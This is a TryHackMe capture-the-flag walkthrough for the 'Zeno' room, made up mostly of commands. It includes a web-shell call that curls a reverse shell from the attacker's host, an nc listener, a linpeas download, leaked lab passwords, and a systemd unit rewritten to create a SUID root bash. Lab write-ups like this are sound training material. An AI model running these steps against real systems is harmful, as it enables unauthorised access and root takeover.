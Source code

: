 # Zeno

**oom Link:** [https://tryhackme.com/room/zeno](https://tryhackme.com/room/zeno)



## **Scans**

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/12340- HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:12340 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Restaurant Management System Exploit

**Exploit:** [https://www.exploit-db.com/raw/47520](https://www.exploit-db.com/raw/47520)

The code needed some fixing up

**From**

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**To**

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
python exploit.py http://$VICTIM:12340/rms/
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cp php-reverse-shell/php-reverse-shell.php .
subl php-reverse-shell.php 
```



**Kali**

```
python2 -m SimpleHTTPServer 81
```

**Browser**

```
http://$VICTIM:12340/rms/images/reverse-shell.php?cmd=curl%20-O%20http://10.10.57.58:81/php-reverse-shell.php
```



**Kali**

```
nc -lvnp 1337
```

**Browser**

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



### LinPeas

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
curl -O http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



MySQL

**Victim**

```
mysql -u root -pveerUffIrangUfcubyig
```

**Victim(mysql)**

```
show databases;
use dbrms;
show tables;
select * from members;
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Edwards password was still not found

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I went back to linpeas and found another password, it's for a different user but it still worked.

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## TCP/22- SSH

**Kali**

```
ssh edward@$VICTIM
Password: FrobjoodAdkoonceanJa
```



**Victim(edward)**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Victim(apache)**

```
find /etc -type f -perm /g=w -exec ls -l {} + 2> /dev/null 
```

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

**Victim(apache)**

```
vi /etc/systemd/system/zeno-monitoring.service
```

**From**

<figure><img src="../../.gitbook/assets/image (808).png" alt=""><figcaption></figcaption></figure>

**To**

```
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'cp /bin/bash /home/edward/bash_root; chmod +xs /home/edward/bash_root'

[Install]
WantedBy=multi-user.target
```

<figure><img src="../../.gitbook/assets/image (810).png" alt=""><figcaption></figcaption></figure>

**Victim(edward)**

```
sudo /usr/sbin/reboot
```

**Kali**

```
ssh edward@$VICTIM
Password: FrobjoodAdkoonceanJa
```

**Victim(edward)**

```
ls -lah
./bash_root -p
```

<figure><img src="../../.gitbook/assets/image (811).png" alt=""><figcaption></figcaption></figure>



